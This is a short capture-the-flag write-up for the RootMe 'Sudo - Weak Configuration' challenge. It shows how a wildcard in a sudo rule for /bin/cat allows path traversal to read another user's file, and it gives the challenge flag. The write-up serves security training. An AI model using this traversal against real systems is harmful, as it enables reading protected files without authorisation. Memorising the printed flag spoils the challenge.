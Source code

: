 ```yaml
---
title: RootMe Sudo - Weak Configuration WriteUp
date: 2023-10-03 
categories: [RootMe, AppScript]
tags: [RootMe, RootMe - AppScript, WriteUp]
author: barabulkit
---
```


# Sudo - Weak Configuration

first we need to check user privelegies

```shell
sudo -l
```

this will output

```
Matching Defaults entries for app-script-ch1 on challenge02:
    env_reset, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, !mail_always, !mail_badpass, !mail_no_host, !mail_no_perms, !mail_no_user

User app-script-ch1 may run the following commands on challenge02:
    (app-script-ch1-cracked) /bin/cat /challenge/app-script/ch1/notes/*
```

There we can see that we can execute /bin/cat /challenge/app-script/ch1/notes/* as app-script-ch1-cracked user

```shell
sudo -u app-script-ch1-cracked /bin/cat /challenge/app-script/ch1/notes/../ch1cracked
```

And with it we will get flag `b3 c4r3ful w1th sud0`